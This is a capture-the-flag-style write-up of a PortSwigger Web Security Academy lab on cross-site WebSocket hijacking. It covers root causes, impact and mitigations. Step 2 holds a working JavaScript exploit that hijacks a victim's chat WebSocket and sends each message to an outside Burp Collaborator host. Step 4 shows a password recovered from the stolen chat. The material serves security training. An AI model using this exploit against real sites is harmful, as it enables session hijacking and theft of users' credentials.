




# Lab 02: Cross-site WebSocket hijacking

> **Topic**: Websockets
> **Lab Number**: 02
> **Platform**: PortSwigger Web Security Academy

## Category
WebSocket Security / Cross-Site WebSocket Hijacking (CSWSH)

## Vulnerability Summary
The chat WebSocket endpoint accepts authenticated cross-origin connections without validating the `Origin` header or enforcing an anti-CSRF token during the WebSocket handshake. Because the victim's session cookie is sent automatically, an attacker can force the victim's browser to open a WebSocket to the target app and read chat messages. The attacker then exfiltrates those messages to Burp Collaborator and steals sensitive data.

## Attack Methodology

### Step 1: Identify WebSocket Message Behavior
Observed the chat socket in **Proxy > WebSockets history** and confirmed the `READY` message used to fetch chat messages/transcript.



### Step 2: Build and Deliver CSWSH Exploit
Created an exploit page that opens a cross-site WebSocket connection to the lab and forwards each inbound message to Burp Collaborator.

```html
<script>
var ws = new WebSocket('wss://0ac700c9039a46628069124000fc0082.web-security-academy.net/chat');
ws.onopen = function () {
  ws.send('READY');
};
ws.onmessage = function (event) {
  fetch('https://azd0eqmbjsrx0aqmevok3sqvwm2dq3es.oastify.com', {
    method: 'POST',
    mode: 'no-cors',
    body: event.data
  });
};
</script>
```

### Step 3: Confirm Collaborator Interactions
After delivering the exploit to the victim, Collaborator received multiple HTTP requests originating from the victim context.



### Step 4: Extract Credentials from Exfiltrated Chat Data
Reviewed Collaborator request bodies and recovered the password from chat content:

```text
"user":"Hal Pline","content":"No problem carlos, it's 6lazusmxztwnp97vjvoe"
```



### Step 5: Use Stolen Credentials and Solve Lab
Logged in as `carlos` using the recovered password and completed the required account action (email update), which solved the lab.



## Technical Root Cause
1. **No Origin validation on WebSocket handshake**: the server accepts cross-site socket initiation.
2. **Session-bound socket without CSRF protection**: browser automatically includes authenticated cookies.
3. **Over-privileged real-time channel**: sensitive chat data is exposed to any authenticated socket consumer.

## Impact
- Full read access to victim WebSocket data stream.
- Credential and sensitive information exfiltration.
- Account compromise and authenticated action abuse.

In production, this can lead to widespread session abuse and high-severity account takeover scenarios.

## Mitigation
1. Strictly validate the `Origin` header for WebSocket handshake requests.
2. Require an unpredictable per-session CSRF token in the handshake or first privileged message.
3. Use `SameSite=Strict` where possible and harden session lifecycle controls.
4. Avoid exposing secrets in chat/system messages.
5. Monitor and rate-limit suspicious socket connection patterns.

## Tools Used
- Burp Suite Professional (Proxy, WebSockets history, Collaborator)
- Exploit Server
- Chromium

## References
- [PortSwigger - Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking)
- [OWASP WebSocket Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/WebSocket_Security_Cheat_Sheet.html)

---

*Lab completed on: 2026-05-17*
*Writeup by vibhxr*
